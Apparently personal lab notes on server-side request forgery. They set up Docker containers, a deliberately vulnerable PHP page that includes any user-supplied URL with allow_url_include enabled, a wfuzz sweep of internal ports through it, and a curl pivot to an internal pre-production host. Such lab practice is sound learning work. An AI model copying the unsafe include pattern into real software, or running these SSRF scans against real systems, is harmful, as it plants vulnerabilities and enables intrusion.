

# SSRF
```bash
# to get docker0 subnet
sudo apt remove podman-docker
sudo apt update
sudo apt install docker.io
sudo systemctl enable --now docker

docker pull ubuntu:latest
docker run -dit --name ssrf_first_lab ubuntu
docker start ssrf_first_lab # if stopped
docker exec -it ssrf_first_lab bash

apt update
apt install apache2 php python3 nano
apt install lsof

lsof -i:80
service apache2 start

cd /var/www/html
rm index.html

<?php
    if(isset($_GET['url'])) {
        $url = $_GET['url'];
        echo "\n[INFO] Listing web content " . $url . "\n\n";
        include($url);
    } else {
        echo "\n [WARN] No URL provided\n\n"; 
    }
?>

find / -name php.ini 2>/dev/null
nano /etc/php/8.3/apache2/php.ini

# set allow_url_include = On
service apache2 restart

# login in PROD

# copy ttemplate into /tmp to simulates pre production enviroment

cp login.html /tmp
cd !$

python3 -m http.server 4646
python3 -m http.server 4646 --bind 127.0.0.1 # port 4646 only visible when we are in the victims machine and put in the browser localhost:4646. Externally we dont have access to this port

# fuzzing ports
wfuzz -c -t 50 -z range,1-65535 -u "http://172.17.0.2/utility.php?url=http://127.0.0.1:FUZZ"

wfuzz -c -t 50 --hl=3 -z range,1-65535 -u "http://172.17.0.2/utility.php?url=http://127.0.0.1:FUZZ"

# ans
wfuzz -c -t 50 --hl=3 -z range,1-65535 -u "http://172.17.0.2/utility.php?url=http://127.0.0.1:FUZZ"
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://172.17.0.2/utility.php?url=http://127.0.0.1:FUZZ
Total requests: 65535

=====================================================================
ID           Response   Lines    Word       Chars       Payload                      
=====================================================================

000000080:   200        19 L     65 W       1001 Ch     "80"                         
000004646:   200        18 L     30 W       283 Ch      "4646"
```

# Second attack


```bash

docker rm $(docker ps -a -q) --force
docker network ls

docker network create --driver=bridge network1 --subnet=10.10.0.0/24

docker run -dit --name PRD ubuntu
docker ps

docker network connect network1 PRD
docker exec -it PRD bash
# ans
172.17.0.2 10.10.0.2

apt update -y
apt install iproute2

ip a
# ans
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
11: eth0@if12: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default 
    link/ether 02:42:ac:11:00:02 brd ff:ff:ff:ff:ff:ff link-netnsid 0
    inet 172.17.0.2/16 brd 172.17.255.255 scope global eth0
       valid_lft forever preferred_lft forever
13: eth1@if14: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default 
    link/ether 02:42:0a:0a:00:02 brd ff:ff:ff:ff:ff:ff link-netnsid 0
    inet 10.10.0.2/24 brd 10.10.0.255 scope global eth1
       valid_lft forever preferred_lft forever

# Creating pre production environment
docker run -dit --name PRE --network=network1 ubuntu
docker ps

docker exec -it PRE bash
apt update 
apt install iproute2 iputils-ping

# Creating attakcer environment
docker run -dit --name ATTACKER ubuntu
docker ps

# Attacker
docker exec -it ATTACKER bash
hostname -I

# ans
172.17.0.3
apt update 
apt install iputils-ping iproute2 -y
ip a

# 172.17.0.3
ping -c 1 162.17.0.2 # trans and received
ping -c 1 10.10.0.2 # only trnas not received

docker exec -it PRD bash
apt install apache2 php nano -y
service apache2 start

cd /var/www/html
<>

<?php
    include($_GET['url']);
?>

find / -name php.ini 2>/dev/null
# allow_url_inlcude

service apache2 start
# create login PRD

docker exec -it PRE bash
apt update
apt install nano python3 -y

cd /tmp
# index.html - you cant see this file
python3 -m http.server 7878

docker exec -it ATTACKER bash
apt install curl


PRD -172.17.0.2 | 10.10.0.2
PRE - 10.10.0.3
ATTACKER - 172.17.0.3

curl "http://172.17.0.2/utility.php?url=http://10.10.0.3:7878"


```